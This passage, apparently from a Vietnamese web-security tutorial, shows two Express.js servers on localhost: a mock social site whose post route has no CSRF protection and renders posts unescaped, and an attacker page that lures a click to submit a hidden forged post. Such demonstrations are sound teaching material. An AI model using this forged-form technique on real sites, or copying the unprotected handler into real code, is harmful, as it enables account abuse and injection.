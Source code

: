     app.post('/status', authMiddleware, (req, res) => {
      // Thêm bài viết vào database
      const { content } = req.body
      database.push(content)
      res.send(`<div>Bạn đã đăng bài thành công, quay lại <a href='/'>trang chủ</a> để xem bài viết của bạn</div>`)
    })

    // Trang chủ
    app.get('/', authMiddleware, (req, res) => {
      // Nếu đã đăng nhập thì hiển thị form đăng bài và các bài đã đăng
      res.send(`
      <html><body>
      <form action='/status' method='post'>
        <textarea type="text" placeholder="Bạn đang nghĩ gì" name="content"></textarea>
        <button type="submit">Đăng bài</button>
      </form>
      <div>Các bài đã đăng</div>
      ${database.map((content) => `<p>${content}</p>`).join('')}
      </body></html>
      `)
    })

    app.listen(PORT, () => {
      console.log(`Facebook Server is running on http://localhost:${PORT}`)
    })
    ```

  - File `server` hacker.js chạy tại http://http://127.0.0.1:3300 (sở dĩ mình không để link localhost vì nó sẽ cũng `domain` với cái `server` facebook trên, nên chúng ta sẽ không test được)

    ```javascript
    const express = require('express')
    const cookieParser = require('cookie-parser')
    const bodyParser = require('body-parser')

    const PORT = 3300
    const app = express()
    app.use(cookieParser())
    app.use(bodyParser.urlencoded({ extended: false }))

    // Trang chứa nội dung dụ dỗ người dùng click
    app.get('/', (req, res) => {
      res.send(`
      <html><body>
      <form action='http://localhost:3000/status' method='post'>
        <input type="text" name="content" value='Tôi hồ đồ quá, tôi đã bị hack' style="display: none" />
        <button type="submit">Click vào đây để xem full video</button>
      </form>
      </body></html>
      `)
    })

    app.listen(PORT, () => {
      console.log(`Hacker Server is running on http://127.0.0.1:${PORT}`)
    })
    ```
